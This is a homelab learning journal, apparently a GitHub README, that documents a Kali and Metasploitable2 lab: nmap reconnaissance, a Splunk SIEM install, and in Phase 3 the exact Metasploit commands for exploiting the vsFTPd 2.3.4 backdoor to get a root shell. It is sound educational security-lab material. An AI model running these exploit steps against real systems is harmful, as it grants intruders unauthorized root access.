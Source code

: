# Homelab Blueprint & Learning Journal

This document tracks the creation, evolution, and exercises performed in my self-hosted cybersecurity homelab. It includes setup steps, hands-on experiments, troubleshooting, and takeaways from each phase.

---

## Table of Contents

- [Phase 1 – Core Components](#phase-1--core-components)
- [Phase 2 – Network Discovery](#phase-2--network-discovery)
- [Phase 3 – Initial Exploitation](#phase-3--initial-exploitation-with-metasploit)
- [Phase 4 – Installing Splunk (SIEM Integration)](#phase-4--installing-splunk-siem-integration)
- [Next Up](#next-up)

---

## Phase 1 - Core Components

**Objective:** Set up a self-contained, safe lab environment for cybersecurity testing and exploration.

**Overview:** This phase focuses on installing and configuring essential components: Kali Linux as the attacker machine and Metasploitable2 as the vulnerable target, both running within a host-only network using VMware Workstation.

- Downloaded **VMware Workstation**
- Installed **Kali Linux (Attacker)**
- Installed **Metasploitable2 (Target)**
- Configured both VMs to run on **Host-Only networking** for isolation and safety

---
## Phase 2 - Identifying the Target Machine (Network Discovery)

**Objective:** Identify live hosts and services within the isolated lab environment to simulate internal reconnaissance.

**Overview:** Using tools like `ifconfig` and `nmap`, this phase simulates an attacker scanning a local network to discover targets and enumerate exposed ports and services, laying the groundwork for future exploitation.

**Steps:**


1. Ensure both VM's are running

2. Open command prompt on the Kali Linux VM and identify the local IP address and subnet of your Kali box **(e.g., 192.168.56.x)**.

3. Scan the subnet to identify other live hosts (including the vulnerable box): ```nmap -sn 192.168.56.0/24```


4. Once the Metasploitable2 IP is located, run a basic port scan: ```nmap [target_ip]```


5. To identify running services and their versions, use the following: ```nmap -sV [target_ip]```. This provides more actionable detail for later exploitation or analysis.


At this stage, the vulnerable system has been identified and its services have been enumerated. This completes the initial reconnaissance phase. Next, we’ll begin exploring exploitation techniques using Metasploit.

---
## Phase 3 – Initial Exploitation with Metasploit

**Objective:** Leverage known vulnerabilities to gain unauthorized access to the target system using Metasploit Framework.

**Overview:** This phase simulates a real-world attack by exploiting the vulnerable vsFTPd service on Metasploitable2, providing experience with vulnerability identification, module selection, and command execution through a remote shell.

**Steps:**

1. Identify a Target Service. From our earlier nmap -sV results, we found that port 21 is open and running vsFTPd (version 2.3.4), which is known to have a backdoor vulnerability.

2. Launch Metasploit Framework through the console with the following command: ```msfconsole```

3. Search for a Matching Exploit. Inside the Metasploit console: ```search vsftpd```

4. Load the Exploit Module, select the correct exploit for this vulnerability: ```use exploit/unix/ftp/vsftpd_234_backdoor```

5. Set Target IP Address. Replace [target_ip] with the actual IP of your Metasploitable2 VM: ```set RHOSTS [target_ip]```

6. Run the Exploit: ```exploit```

If successful, this will spawn a root shell on the target system. This is for educational purposes only and should never be performed outside of authorized lab environments.

---
## Phase 4 – Installing Splunk (SIEM Integration)

**Objective:** Install and configure Splunk on Kali Linux to serve as a SIEM platform for future log collection and monitoring.

**Overview:** Splunk will be used to ingest and analyze logs from the lab environment, enabling simulated alerting and incident response workflows. This phase sets the foundation for blue team operations.

**Steps:**

1. Acquire `wget` link for SIEM in question (Splunk in this case)

2. Use `wget` command to download the latest version (as of this setup): `wget https://download.splunk.com/products/splunk/releases/9.4.1/linux/splunk-9.4.1-e3bdab203ac8-linux-amd64.deb`

3. To actually install the SIEM type: `sudo dpkg -i splunk-9.4.1-e3bdab203ac8-linux-amd64.deb`

4. To accept the license: `sudo /opt/splunk/bin/splunk start --accept-license`

*Note: Splunk version numbers and filenames may change over time, adjust the URL and commands accordingly.*

5. Input Username and Password for SIEM

6. Link for Splunk should look something like this: *http://kali:8000/en-US/manager/search/adddata*

7. Next time you reboot or want to start Splunk again: `sudo /opt/splunk/bin/splunk start`

8. If you want it to run on start automatically: `sudo /opt/splunk/bin/splunk enable boot-start`

---
## Next Up
- Phase 5 – Log Ingestion and Detection
